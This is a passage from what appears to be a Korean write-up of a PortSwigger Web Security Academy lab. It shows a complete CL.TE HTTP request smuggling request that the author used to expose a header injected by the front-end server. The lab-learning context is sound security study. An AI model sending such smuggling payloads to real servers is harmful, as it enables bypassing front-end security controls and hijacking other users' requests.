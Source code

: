 2. 스머글링을 시도해본다. CL.TE 패턴이다. 다음과 같은 요청을 보내본다. 

```
POST / HTTP/1.1
Host: 0a1200ea03e7d7128291cc690021000c.web-security-academy.net
Cookie: session=qbuTFVIaGF3ujGihNv1axrMWw35g2NRX
Content-Length: 100
Origin: https://0a1200ea03e7d7128291cc690021000c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Referer: https://0a1200ea03e7d7128291cc690021000c.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

search=
```

일정 부분 헤더가 노출되는 것을 확인했다. 프론트엔드 서버가 `X-lPAEPh-Ip`헤더를 추가하는 것을 알았다. (헤더명은 문제 랩마다 다르다.)

![스머글링 시도 결과](/images/burp-academy-hrs-8-1.png)
